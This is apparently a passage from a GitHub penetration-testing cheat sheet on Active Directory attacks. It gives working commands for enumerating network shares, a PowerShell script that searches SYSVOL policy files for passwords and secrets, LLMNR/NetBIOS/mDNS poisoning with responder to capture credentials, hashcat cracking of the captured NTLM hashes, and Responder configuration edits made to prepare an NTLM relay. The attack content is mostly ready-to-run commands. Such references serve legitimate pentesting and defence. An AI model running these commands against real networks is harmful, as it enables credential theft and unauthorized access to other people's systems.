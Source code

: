 ### Share enumeration
- With PowerView
```
Find-DomainShare -CheckShareAccess -ErrorAction SilentlyContinue   | Where-Object {$_.Name -ne 'print$' -and $_.Name -ne 'Admin$' -and $_.Name -ne 'C$' -and $_.Name -ne 'IPC$'} | select Name,ComputerName | ft -AutoSize | Out-File -Encoding utf8 Shares.txt
```
- Crackmapexec
**Prerequisite** : List of domain computers
```
crackmapexec smb computers.txt -u pentestuser -k --shares | tee --append shares.txt
```
#### Searching for GPOs files containing potentials secrets 
Sometimes, GPOs files hold secret such as credentials. The following PowerShell Script may help to list the files potentially containing secrets:
```
$domainname=(Get-Domain).Name
$sourcePath = "\\$domainname\SysVol\$domainname\Policies"

Get-ChildItem -Path $sourcePath | ForEach-Object{ Get-ChildItem -Path $_.FullName -Recurse -File -Exclude "*.adml","*.adm","*.admx",".pol","GptTmpl.inf","Registry.xml","Services.xml","Folders.xml","Groups.xml","Files.xml" -ErrorAction SilentlyContinue  | Select-String -Pattern 'user', 'login', 'pass', 'pwd', 'psw', 'database', 'secret', 'password', 'vnc'  -AllMatches -ErrorAction SilentlyContinue | Select-Object -Unique Path }
```
*DC.my.domain.com* should be replaced by a valid dnsname of a Domain Controller and *my.domain.com* with the domain name.
### LLMNR & Netbios & MDNS poisoning  
- **LLMNR** (Link-Local Multicast Name Resolution): A protocol used to resolve names (like a computer name) to IP addresses within the same local network when DNS isn't available. It sends out a network-wide request asking "Who is this computer?"

- **NetBIOS** (Network Basic Input/Output System): An older protocol that helps computers on the same network communicate and resolve names (computer names) to IP addresses. It predates DNS and works in local network environments.

- **mDNS** (Multicast DNS): Similar to LLMNR, but used more often in environments like home networks or non-Windows devices. It resolves hostnames to IP addresses without the need for a DNS server.

These protocols are fallback name resolution mechanisms that can be exploited by attackers for poisoning attacks (specifically, name resolution poisoning) using `responder`.
Assuming the network interface for the machine is eth0 the command to poison the answers to the above protocols and potentially received users credentials is:
```
sudo responder -I eth0
```
The hashes obtained may be cracked offline using tools like `hashcat` and `john` as follows:
```
hashcat -m 5600 --force -a 0 responder.hashes rockyou2024.txt 
```
### NTLM relay
When SMB signing is disabled on a computer, it is possible to perform an NTLM relay attack. In this scenario, the NTLM authentication messages are intercepted and relayed to another machine (without decrypting them), allowing unauthorized access.
- The following command may help to identify computers with SMB signing disabled:
```
crackmapexec smb computers.txt --gen-relay-list smb_targets.txt
```
- In order to relay NTLM authentication messages, `responder` must stop smb and http server as the purpose is to relay hashes to `ntlmrelayx.py` instead of getting them:
```
sed -i 's/HTTP = On/HTTP = Off/g' /opt/tools/Responder/Responder.conf && cat /opt/tools/Responder/Responder.conf | grep --color=never 'HTTP ='
sed -i 's/SMB = On/SMB = Off/g' /opt/tools/Responder/Responder.conf && cat /opt/tools/Responder/Responder.conf | grep --color=never 'SMB ='
```